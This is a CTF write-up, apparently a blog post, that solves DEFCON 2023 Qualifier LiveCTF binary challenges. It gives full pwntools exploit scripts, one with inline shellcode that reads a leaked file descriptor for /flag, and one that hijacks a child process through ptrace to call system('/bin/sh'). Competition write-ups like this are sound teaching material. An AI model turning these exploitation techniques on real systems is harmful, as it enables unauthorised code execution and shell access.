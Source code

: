 ```yaml
---
title: "DEFCON 2023 Qualifier: LiveCTF"
tags: pwn
style: border
color: dark
comments: true
description: Solutions to some LiveCTF challenges from DEFCON 2023 Quals
---
```


# LiveCTF

LiveCTF is a sub category of DEFCON competition which mostly comprosises with binary challenges with easier difficulty- but with less time and points.
The key to utilize LiveCTF in DEFCON is to solve it as fast as possible while using the least manpower as possible.

An interesting thing about LiveCTF challenges is its own unique way of submitting its solutions. Instead of directly pasting the flag, we submit a compressed solution file containing a Dockerfile and the exploit.

At the DEFCON 2023 Qualification Round, there were a total of 7 LiveCTF challenges.

I focused on LiveCTFs in this qualification round and will go over some pwn (binary) challenges that I worked on/solved.

## LiveCTF Practice Challenge

The solution is given, as it is just to make sure the submition system works:

```python
from pwn import *
HOST = os.environ.get('HOST', 'localhost')
PORT = 31337

r = remote(HOST, int(PORT))
r.recvline_contains(b'Give me input: ')
r.sendline(b'WIN')
r.recvline_contains(b'You sent: ')
r.sendline(b'./submitter')
flag = r.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)
```

## benshmark

In the challenge source code, 
```c
if ( read(f, code, 0x100uLL) == -1 )
{
    puts("read failed");
    free(code);
}
```
Fail in reading a file doesn't close the file descriptor, therefore, can be leaked.
- Read /flag twice
- Trigger read fail and leak fd
- Run shellcode to read from fd
- Get flag

### Exploit
A solution by my teammate from ```P1G BuT S4D```:
```python
#!/usr/bin/env python3

from pwn import *
import re

context.arch = "amd64"
context.log_level = "DEBUG"
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337

# r = remote(HOST, int(PORT))
r = process("../handout/challenge")

r.sendlineafter(b"Choice:", b"1")
r.sendlineafter(b">", b"/flag")

r.sendlineafter(b"Choice:", b"1")
r.sendlineafter(b">", b"/flag")

r.sendlineafter(b"Choice:", b"1")
r.sendlineafter(b">", b"/proc/self/fd/0")

r.send(asm("""
    call A
A:
    pop rdx
ZALOOP:
    mov rax, 8882879963476683084
    cmp QWORD PTR [rdx], rax
    je FOUND
    dec rdx
    jmp ZALOOP
FOUND:
    mov rdi, QWORD PTR [rdx]
    
    mov rsi, rbp
    sub rsi, 0x28
    mov rsi, QWORD PTR [rsi]
    add rsi, 0x0c
    mov rdi, QWORD PTR [rdx]
    mov QWORD PTR [rsi], rdi
    mov rdi, QWORD PTR [rdx+8]
    mov QWORD PTR [rsi+8], rdi
    mov rdi, QWORD PTR [rdx+16]
    mov QWORD PTR [rsi+16], rdi
    mov rdi, QWORD PTR [rdx+24]
    mov QWORD PTR [rsi+24], rdi
    ret
"""))

gdb.attach(r)

r.sendlineafter(b"Choice:", b"2")
print(re.findall(rb'LiveCTF{[^}{}]+}', r.recvall(timeout=3))[0].decode())
```

## ptrace-me-maybe

The challenge spawns a child process and lets the user run any kind of ptrace requests as much as the user wants.

We can exploit the challenge by:
- Leak libc base through PTRACE_PEEKUSER request
- Write ```system``` to RIP and "/bin/sh" to RDI through PTRACE_POKEUSER request
- Restart child process by PTRACE_CONT with the new register values
- Get shell

### Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.arch = "amd64"
context.log_level = "DEBUG"
context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']

HOST = os.environ.get('HOST', 'localhost')
PORT = 31337

system_offset = 331104
binsh_offset = 1935000

r = remote(HOST, int(PORT))
# r = process("./challenge")

r.sendlineafter(b"send?", b"0x3")
r.sendlineafter(b"want?", b"0x80")
r.sendlineafter(b"data?", b"0x0")

r.recvuntil(b"returned ")
leak = int(r.recvline().strip()[2:].decode(), 16)

r.sendlineafter(b"(0/1)?", "1")

libc_base = leak - 0x7ffff7e7abc7 + 0x7ffff7d91000 - 0x1000

r.sendlineafter(b"send?", b"0x6")
r.sendlineafter(b"want?", b"0x80")
r.sendlineafter(b"data?", hex(libc_base + system_offset).encode())
r.sendlineafter(b"(0/1)?", b"1")

r.sendlineafter(b"send?", b"0x6")
r.sendlineafter(b"want?", b"0x70")
r.sendlineafter(b"data?", hex(libc_base + binsh_offset).encode())
r.sendlineafter(b"(0/1)?", b"1")

# gdb.attach(r)

r.sendlineafter(b"send?", b"0x7")
r.sendlineafter(b"want?", b"0x0")
r.sendlineafter(b"data?", b"0x0")

# print(hex(libc_base))

# pause()
r.sendlineafter(b"(0/1)?", b"0")

sleep(1)

r.sendline(b'./submitter')

flag = r.recvline_contains(b'LiveCTF{').decode().strip()
log.info('Flag: %s', flag)

```

Thanks,

079
